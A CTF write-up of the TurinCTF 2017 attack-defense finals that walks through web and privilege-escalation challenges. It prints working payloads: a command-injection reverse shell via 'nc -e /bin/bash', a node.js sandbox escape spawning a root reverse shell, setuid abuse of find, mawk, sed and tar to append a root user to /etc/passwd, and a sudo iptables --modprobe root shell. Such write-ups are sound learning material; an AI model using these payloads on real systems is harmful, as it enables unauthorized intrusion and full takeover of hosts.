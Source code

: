 ```yaml
---
layout: post
title:  "TurinCTF 2017 - Finals"
date:   2017-11-28 00:05
categories: [TurinCTF2017]
tags: [Web, Pwn]
author: jbz
---
```


The [Turin Cybersec Hackaton](https://cybersec.jetop.com/) was organized by the guys at JeTOP, in collaboration with KPMG, Shielder and the PoliTO University.

***Note*** If you have solved a challenge that you don't see listed here and you have material/source-code or you want to write a writeup, write to us on telegram in the `@CapTheFlag` group. ;)

***TL;DR***
The CTF was an Attack-Defense type. 
Most of the VMs were made of 2 parts, Web and PrivEsc.

The target for the web part was to gain code execution thru a reverse-shell,  
then you had to escalate to `root` to write the `/flag/flag` file and patch the VM.

Since I don't remember the exact pairs of Web-PrivEsc and I don't remember their name either,  
I will just list random things in random order. :)

## Web

### 1

The VM had 2 open port, `80` and `1337`.  
Port `1337` was dropping our packets.  
The website was asking for username and password.  

We ran `dirbuster` and find out the `app/app-release.apk` file.

Decompiled with [apk2java](https://github.com/TheZ3ro/apk2java-linux) we get this source:

	package it.shielder.securelogin;

	import android.view.View;
	import java.text.SimpleDateFormat;
	import java.util.Calendar;
	import java.util.Date;

	public class WIPClass {
	    public void Get(View object) {
	        object = Calendar.getInstance();
	        object = new SimpleDateFormat("ddMMyyyy").format(object.getTime());
	        String string2 = new String(new byte[]{97, 115, 103, 97, 100, 97, 114, 105, 100, 100, 117});
	        (String)object + string2;
	    }
	}

If we run this chunk of code we find out that the passowrd is:
`$pass_today = $date_today . "asgadariddu";`

We login in with as `admin` and we get redirected to `check_turbine.php` page.

Here you can insert an ip address and ping it.  
The website checks if the input have `;` in it (for preventing multiple command chaining) but alternatively you can use `&` or `\n` (`%0a`).

Send `ip="10.105.10.79 %0a nc -e /bin/bash 10.105.10.79 2020"` to spawn a reverse shell.


## Privilege Escalation

Once you gain a shell access to a VM there are a few thing you should check out:

 - setuid executables (`find / -perm -4000 2>/dev/null`) 
 - crontabs (`crontab -l`, `cat /etc/crontab`, `ls /var/spool/cron/crontabs/`)
 - sudoers (`cat /etc/sudoers`)
 - running services/processes (`ps aux`, `lsof`, `systemctl status`)
 - check for mount options
 - ...

### 1

There was a service running on `1337` available only for `localhost`, ran as `root`.
Now we can connect to it from our reverse shell.

Connecting to it we can see a strange prompt

	REMOTE AMMINISTATION TOOL (beta)

	#>

We tested some inputs

	#> a[0]=1
	Dangerous characters detected

	Phone #> console.log(1)
	Dangerous characters detected

	#> eval
	function eval() { [native code] }

This is node.js, but unfortunately some characters were filtered, like `[]./`.

We can bypass the filter on `.` with this function `function punto(i){ for (c of __filename){ if (i > -9) {i--} else return c } }` since filename is `/root/rat.js`.

Sending `this` as input show us the source code. Unfortunately we discovered that many STD classes were overwritten in the eval context.

	var line = "";

    var call,Array,ArrayBuffer,Boolean,Buffer,DTRACE_HTTP_CLIENT_REQUEST,DTRACE_HTTP_CLIENT_RESPONSE,DTRACE_HTTP_SERVER_REQUEST,DTRACE_HTTP_SERVER_RESPONSE,DTRACE_NET_SERVER_CONNECTION,DTRACE_NET_STREAM_END,DataView,Date,Error,EvalError,Float32Array,Float64Array,Function,Int16Array,Int32Array,Int8Array,Map,Number,Object,Promise,Proxy,RangeError,ReferenceError,Set,String,Symbol,SyntaxError,TypeError,URIError,Uint16Array,Uint32Array,Uint8Array,Uint8ClampedArray,WeakMap,WeakSet,__defineGetter__,__defineSetter__,__lookupGetter__,__lookupSetter__,assert,call,clearImmediate,clearInterval,clearTimeout,constructor,decodeURI,decodeURIComponent,encodeURI,encodeURIComponent,escape,events,flag,global,hasOwnProperty,isFinite,isNaN,isPrototypeOf,parseFloat,parseInt,process,propertyIsEnumerable,require,rl,setImmediate,setInterval,setTimeout,stream,template,toLocaleString,toString,unescape,valueOf;

    if(new RegExp(/[\[\]\.\\\+\/;,=]/).test(number)){
        console.log("Dangerous characters detected");
        throw 123;
        return;
    }

    if(new RegExp(/with/i).test(number)){
        console.log("Dangerous characters detected");
        throw 123;
        return;
    }
    arguments = undefined;

    console.log(eval(number));

In javascript you can change context with the `with` [statement](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with) 

Since `with` is filtered with a simple regex, we can bypass that check by using ``w${line}ith`` instead, `line` is declared empty in the source code above. 
Making good use of [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals).

Finally we can simply eval our payload in the `global` [context](https://nodejs.org/dist/latest-v6.x/docs/api/globals.html#globals_global) to get access to all the jailed functions.

This will spawn a reverse-shell as root:

	function punto(i){ for (c of __filename){ if (i > -9) {i--} else return c } } eval(`w${line}ith (root) { eval(decodeURIComponent("module%2erequire('child_process')%2eexec('nc%20-e%20%2Fbin%2Fbash%2010%2e105%2e10%2e79%204444')")) }`)


### 2, 3, 4, 5

In many VMs there were `setuid` executables.

Here it's just a matter of appending a line into `/etc/passwd`.

Our line was `jbz:AjNoV1Tjj0tSc:0:0:jbz:/root:/bin/bash` (user `jbz`, password `jbz`, uid `0`, home `/root`)

After adding the line just run `su jbz` or `ssh jbz@hostname`

#### find

`find /etc/passwd -exec sh -c "echo jbz:AjNoV1Tjj0tSc:0:0:jbz:/root:/bin/bash >> {}" \;`

#### mawk

`mawk 'END{print "jbz:AjNoV1Tjj0tSc:0:0:jbz:/root:/bin/bash" >> "/etc/passwd"}'`

#### sed

`sed -i '$ a jbz:AjNoV1Tjj0tSc:0:0:jbz:/root:/bin/bash' /etc/passwd`

#### tar

Having tar with `setuid` we can compress a `/etc/passwd` file with our `jbz` user, and decompress it in the `/etc` folder, overwriting the system `passwd` file.

`tar -xzvf passwd.tar.gz -C /etc`

### 6

In a VM there was `iptables` in the `/etc/sudoers` file with `NOPASSWD` option.  
This means you can run `sudo iptables` as root without inserting the root's password.

#### iptables

We need to get command execution with `iptables`.

Reading the manpage we discovered this option:

	--modprobe=command
        When adding or inserting rules into a chain, use command to load
        any necessary modules (targets, match extensions, etc).


In the `/etc/modprobe.d/iptables.conf` file the `nat` table was blacklisted (and not loaded).  
This way we can use the `--modprobe` option on the `nat` table to execute a custom script.

	$ echo -e "#!/bin/sh\n/bin/sh" > /tmp/shell
	$ chmod +x /tmp/shell
	$ sudo iptables -L -t nat --modprobe=/tmp/shell
	# whoami
	root

